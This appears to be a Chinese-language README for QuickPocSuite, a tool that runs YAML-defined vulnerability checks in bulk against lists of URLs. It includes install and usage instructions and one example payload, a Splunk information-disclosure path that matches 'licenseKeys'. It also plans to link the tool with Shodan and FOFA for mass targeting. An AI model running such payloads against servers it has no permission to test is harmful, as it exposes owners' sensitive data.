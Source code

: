 # QuickPocSuite
![QuickPocSuite](https://socialify.git.ci/W01fh4cker/QuickPocSuite/image?description=1&descriptionEditable=%E4%B8%80%E6%AC%BE%E5%9F%BA%E4%BA%8Eyaml%E7%9A%84%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8%E5%B7%A5%E5%85%B7%EF%BC%8C%E9%80%82%E7%94%A8%E4%BA%8E%E5%88%A9%E7%94%A8%E5%A4%8D%E6%9D%82%E7%A8%8B%E5%BA%A6%E8%BE%83%E4%BD%8E%E7%9A%84%E6%BC%8F%E6%B4%9E&forks=1&issues=1&language=1&name=1&owner=1&pattern=Brick%20Wall&stargazers=1&theme=Light)

# 使用方法

## 快速上手

```shell
# 测试环境：
git clone https://github.com/W01fh4cker/QuickPocSuite.git
cd QuickPocSuite
pip install -r requirements.txt -i https://pypi.tuna.tsinghua.edu.cn/simple
python QuickPocSuite.py -y <yaml文件地址> -l <需要批量利用的url文件>
# 例如：python QuickPocSuite.py -y splunk-info-disclosure.yaml -l urls.txt 
```

## 详细参数

```shell
  ___        _      _      ____            ____        _ _       
 / _ \ _   _(_) ___| | __ |  _ \ ___   ___/ ___| _   _(_) |_ ___ 
| | | | | | | |/ __| |/ / | |_) / _ \ / __\___ \| | | | | __/ _ \
| |_| | |_| | | (__|   <  |  __/ (_) | (__ ___) | |_| | | ||  __/
 \__\_\\__,_|_|\___|_|\_\ |_|   \___/ \___|____/ \__,_|_|\__\___|
                                                    @Version: 0.0.1-beta
                                                    @Author: W01fh4cker
                                                    @Time: 2023-5-11
    
usage: QuickPocSuite.py [-h] [-y YAML] [-l LIST] [-t THREAD] [-o OUTPUT]

QuickPocSuite v0.0.1-beta By:W01fh4cker

optional arguments:
  -h, --help            show this help message and exit
  -y YAML, --yaml YAML  the YAML file containing the PoC
  -l LIST, --list LIST  the file containing target URLs
  -t THREAD, --thread THREAD
                        the maximum time in seconds for each request,default: 20
  -o OUTPUT, --output OUTPUT
                        the file to output the results, default: output.txt
```



# yaml编写方法

适用版本：`0.0.1-beta`

```yaml
payload: /en-US/splunkd/__raw/services/server/info/server-info?output_mode=json
keyword: licenseKeys
```

`payload`为需要在`url`后面拼接的内容；`keyword`为存在漏洞的`url`的界面中出现的关键字。例如：

![image](https://github.com/W01fh4cker/QuickPocSuite/assets/101872898/a336eb2b-03f2-40e7-9f51-f50c1660cbcc)

# Todo-list

- 完成`poc`为`post`请求方式部分的代码；
- 和`fofa`/`hunter`/`shodan`/`zoomeye`/`quake`等网络测绘引擎的联动；
- 自动对完成扫描的`IP`进行分析，例如反查域名/`ASN`/`org`等。
- ……（你们定，直接提issues，合理的都会满足）

# 联系方式

紧急的话直接联系Wechat：`W01fh4cker`；非紧急的话直接提`issues`。

提问的时候请贴出报错截图、`Python`版本、电脑系统版本等，方便快速定位问题，简单的能百度/`google`到的问题尽量自己查询。
